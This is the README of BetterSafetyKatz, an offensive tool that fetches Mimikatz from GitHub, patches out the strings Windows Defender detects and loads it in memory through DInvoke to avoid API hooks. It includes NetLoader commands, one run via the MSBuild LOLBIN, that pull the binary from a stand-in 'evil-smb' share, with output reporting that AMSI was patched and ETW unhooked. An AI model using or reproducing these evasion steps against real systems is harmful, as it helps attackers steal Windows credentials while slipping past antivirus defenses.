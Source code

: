# BetterSafetyKatz?

This modified fork of SafetyKatz dynamically fetches the latest pre-compiled release of Mimikatz directly from the gentilkiwi GitHub repo, 
runtime patching on detected signatures and uses SharpSploit DInvoke to get it into memory.

1. Gets the URL for the latest ZIP / PreCompiled Mimikatz binary directly from GitHub Repo
2. Unzipped in memory, turned into HEX. Then strings/signatures detected by Windows Defender are replaced with random strings of the same size 
    (Used https://github.com/matterpreter/DefenderCheck to gather signatures detected)
3. PE-Loaded into mem using SharpSploit 1.6 DInvoke, bypassing API hooking.(https://thewover.github.io/Dynamic-Invoke/)

Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9

[@harmj0y](https://twitter.com/harmj0y) is the primary author of the port that this repo is forked from.

BetterSafetyKatz is licensed under the BSD 3-Clause license.

## Detected?

BetterSafetyKatz can be deployed using [NetLoader](https://github.com/Flangvik/NetLoader), this might bypass common AV solutions such as Windows Defender.

	PS D:\Projects\NetLoader> .\NetLoader.exe --path //evil-smb/bins/BetterSafetyKatz.exe --args coffee
	[!] ~Flangvik , ~Arno0x #NetLoader
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	
Or via the NetLoader MSBuild LOLBIN

	C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe NetLoader.xml
	[!] ~Flangvik , ~Arno0x #NetLoader
	[?] Input X in any field to exit!
	[?] Is all input base64 encoded ? y/n -> n
	[?] Input path or url -> //evil-smb/bins/BetterSafetyKatz.exe
	[?] Is the payload data XOR encrypted ? y/n -> n
	[?] Input payload args (optional) -> coffee
	[+] Successfully patched AMSI!
	[+] Successfully unhooked ETW!
	[+] URL/PATH : //evil-smb/bins/BetterSafetyKatz.exe
	[+] Arguments : coffee
	[+] Stolen from @harmj0y, @subtee and @gentilkiwi, repurposed by @Flangvik and @Mrtn9
	[+] Contacting repo -> 2.2.0-20200519/mimikatz_trunk.zip
	[+] Randomizing strings in memory

	  .#####.   022PO6WM 2.2.0 (x64) #19041 May 19 2020 00:48:59
	 .## ^ ##.  "2HREDZLQ6LC4KWE48WS" - (J888K)
	 ## / \ ##  /*** SX6HATY8UCZTFP `3I6B0MYQ03` ( 66OC8VHW@3I6B0MYQ03.com )
	 ## \ / ##       > http://blog.3I6B0MYQ03.com/022PO6WM
	 '## v ##'       KVY3O5BG9LH90CH             ( EWGZ4I5Z22719E0QZJTNFIJF )
	  '#####'        > VOIN6NBQ5J7P55TZBTT4H / WXFFZUHZ5JPERL93VZ3VC1W   ***/

	022PO6WM # coffee

		( (
		 ) )
	  .______.
	  |      |]
	  \      /
	   `----'

	022PO6WM #
	

